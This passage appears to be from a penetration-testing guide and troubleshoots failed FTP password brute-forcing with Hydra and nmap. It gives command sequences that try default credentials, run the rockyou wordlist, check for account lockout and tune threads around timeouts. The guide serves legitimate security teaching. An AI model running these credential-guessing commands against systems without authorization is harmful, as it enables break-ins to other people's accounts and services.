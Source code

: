 ## ⚠️ Common Problems and How to Fix Them

### **❌ Problem 1: No Credentials Found**

**What You See:**
```bash
[DATA] attacking ftp://192.168.1.100:21/
[*] No valid passwords found
[*] Scanned 1 of 1 hosts (100% complete)
```

**How to Fix:**
```bash
# Step 1: Try manual common credentials first
hydra -l admin -p admin target_ip ftp
hydra -l admin -p password target_ip ftp
hydra -l admin -p 123456 target_ip ftp
# Test most common combinations manually

# Step 2: Check if service allows multiple attempts
nmap --script ftp-brute target_ip
# Verify service doesn't have lockout

# Step 3: Try different wordlists
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/rockyou.txt target_ip ftp
# Use larger, different wordlists

# Step 4: Verify service is actually FTP
nmap -sV -p 21 target_ip
# Confirm service type and version
```

**Common Causes:**
- Strong password policy on target
- Account lockout after failed attempts
- Service not actually FTP (HTTP on port 21, etc.)
- Wrong wordlists for target type

---

### **❌ Problem 2: Connection Timeouts**

**What You See:**
```bash
[ERROR] Could not connect to target
[ERROR] Connection timed out
```

**How to Fix:**
```bash
# Step 1: Check basic connectivity
ping target_ip
# Make sure target is reachable

# Step 2: Verify service is running
nmap -p 21,22,80 target_ip
# Confirm services are actually open

# Step 3: Reduce connection attempts
hydra -t 1 -w 5 -l admin -p admin target_ip ftp
# Use fewer threads, more wait time

# Step 4: Check for firewall blocking
nmap -sS target_ip
# Look for filtered ports vs closed ports
```
